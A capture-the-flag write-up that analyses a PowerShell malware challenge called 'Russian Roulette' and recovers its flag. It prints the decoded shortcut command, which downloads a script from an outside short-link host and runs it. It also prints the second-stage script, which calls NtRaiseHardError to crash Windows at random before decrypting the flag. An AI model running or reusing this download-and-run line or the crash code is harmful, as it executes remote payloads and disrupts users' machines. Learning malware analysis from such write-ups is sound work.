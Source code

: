 ![russian-roulette-ss1.png](russian-roulette-ss1.png)

# Russian Roulette: Malware  

Author: @JohnHammond  

My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(  

```
WARNING: Please examine this challenge inside of a virtual machine for your own security. Upon invocation there is a real possibility that your VM may crash.
```  

```NOTE: Archive password is russian_roulette```

Download the file(s) below.  
```russian_roulette.zip```

```bash
##	Extract russian_roulette.zip on Windows 10 VM --> file is a powershell shortcut with parameters containing malware payload

##	Read Shortcut > Properties > Target, convert Base64, remove null
	> "iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd"

##	This is an Invoke-WebRequest to download and run payload

##	is.gd/jwr7JD > a file that is difficult to deobfuscate, so I tried another method:
```

## SOLUTION:  

Open Event Viewer, run the provided challenge Shortcut, view PowerShell logs  
Retry if crash  

From command line details included in log, or find very long Base64 and convert  
You get a PowerShell script that creates the flag and spawns new powershell, but will sometimes crash (1/6 chance) hence russian_roulette  
```powershell
$s='using System;
using System.Text;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
using System.IO;
public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);
[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);
public static unsafe string Shot(){bool o;
uint r;
RtlAdjustPrivilege(19,true,false,out o);
NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);
byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");
using(Aes a=Aes.Create()){a.Key=k;
a.IV=i;
ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);
using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';
$c=New-Object System.CodeDom.Compiler.CompilerParameters;
$c.CompilerOptions='/unsafe';
$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;
if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"

##	Simplify script to use only the crypto flag parts and not crash
##	Run in Powershell as Administrator
$s = @"
using System;
using System.Security.Cryptography;
using System.IO;
public class Decryptor
{
    public static string Decrypt()
    {
        byte[] c = Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
        byte[] k = Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
        byte[] i = Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");

        using (Aes a = Aes.Create())
        {
            a.Key = k;
            a.IV = i;
            using (ICryptoTransform d = a.CreateDecryptor(a.Key, a.IV))
            using (var m = new MemoryStream(c))
            using (var y = new CryptoStream(m, d, CryptoStreamMode.Read))
            using (var reader = new StreamReader(y))
            {
                string decryptedText = reader.ReadToEnd();
                return decryptedText; // Return the decrypted text
            }
        }
    }
}
"@
$c = New-Object System.CodeDom.Compiler.CompilerParameters
$c.CompilerOptions = '/unsafe'
$a = Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c
# Call the Decrypt method and capture the result
$result = & $a::Decrypt() 
Write-Host "Decrypted Result: $result" # Output the result to the console
```
Modify with ```Write-Host``` and fixes to print variable directly to console.
> flag
